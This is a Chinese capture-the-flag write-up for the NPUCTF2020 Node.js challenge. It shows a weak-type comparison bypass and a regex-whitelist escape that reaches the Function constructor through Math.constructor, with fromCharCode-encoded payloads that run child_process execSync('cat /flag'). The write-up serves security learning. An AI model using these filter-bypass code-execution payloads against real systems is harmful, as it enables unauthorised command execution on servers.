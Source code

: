 ## 0x01 [NPUCTF2020]验证🐎

```js
str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')
```

第一步是一个弱类型比较，下面有两个常用的比较方式

1. `a[]=a&b[]=a`

2. `a='1' &b=[1]`

注意第二种方式必须使用json格式进行传输，不然`[1]`会被解析成为字符串。很显然这里使用第二种。

第二步就是研究上面这个正则表达式了。一共分为3个部分。

1. `(?:Math(?:\.\w+)?)`

![image-20220102083051223](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102083051223.png)

可以看到必须是`Math.xxxx`这种类型

2. `[()+\-*/&|^%<>=,?:]`
![image-20220102083300685](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102083300685.png)

可以看到能使用的符号还有这么多。

3. `(?:\d+\.?\d*(?:e\d+)?)`

   这个好像就是所有的数字，包括整数，浮点数，科学计数法。不难想到`fromCharcode`

构造一个charcode的python函数

```js
def gen(cmd):
  s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"
  return ','.join([str(ord(i)) for i in s])
```

但是现在现在必须用Math开头，我们看看这个对象有什么方法可以使用。

我们都只知道在nodejs中`Function`这个东西是所有函数的构造器，我们可以利用这个构造一个匿名函数，来执行我们的命令，但是在本地测试的时候`Math=Math+1`可以获得一个Math字符串，但是在远程就会报错，不是很明白其中的原因，懒狗表示不想debug了。

```
Math=Math+1,Math=Math.constructor,Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
```

这个payload本地通了，远程就无了，不明白。呜呜。最好是用了他们的箭头函数过的

```
(Math=>(Math=Math.constructor,Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41,46,116,111,83,116,114,105,110,103,40,41))))(Math+1)()

```
